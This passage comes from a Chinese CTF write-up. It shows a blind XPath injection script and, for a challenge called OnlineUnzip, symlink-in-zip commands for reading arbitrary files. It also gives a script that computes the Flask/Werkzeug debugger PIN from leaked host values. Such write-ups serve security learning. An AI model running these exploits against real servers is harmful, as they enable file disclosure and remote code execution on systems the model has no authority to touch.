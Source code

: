 ```python
        }

        payload_3 = { # username
            "xpath":"'or substring(name(/root/user/*[2]), {}, 1)={} and ''='".format(i,j)
        }
        
        payload_4 = { # flag
            "xpath":"' or substring(name(//user/username[2]), {}, 1)={} and ''='".format(i,j)
        }

 r = requests.post(url=url, headers=head, data=payload_4)
 
if "user1" in r.text:
    flag += j
    print(flag)
```
### OnlineUnzip
上传zip，解压显示
#### 软链接任意读取
类似快捷方式，网站后台解压会读取该软链接指向的文件，做到读取任意文件
```bash
# 读根目录
ln -s / .a  
zip --symlinks root.zip .a
```
发现**ffffl111l1a44a4ggg**，读取发现无权限，算pin值
#### PIN值
在flask下，可通过pin启动python交互式调试器
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'ctf'  # flask登录的用户名，/etc/passwd
    'flask.app',  # modname，默认值
    'Flask',  # getattr(app, “name”, app.class.name)，默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py'  # app.py路径，报错得到
]
private_bits = [
    '95532807882',  # mac地址十进制，/sys/class/net/eth0/address
    '96cec10d3d9307792745ec3b85c8962019b065577048ffd94233375ed305835825f08ca636839a3cf042ee07df0ef676' # 机器id，/etc/machine-id+/proc/self/cgroup
]
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
```
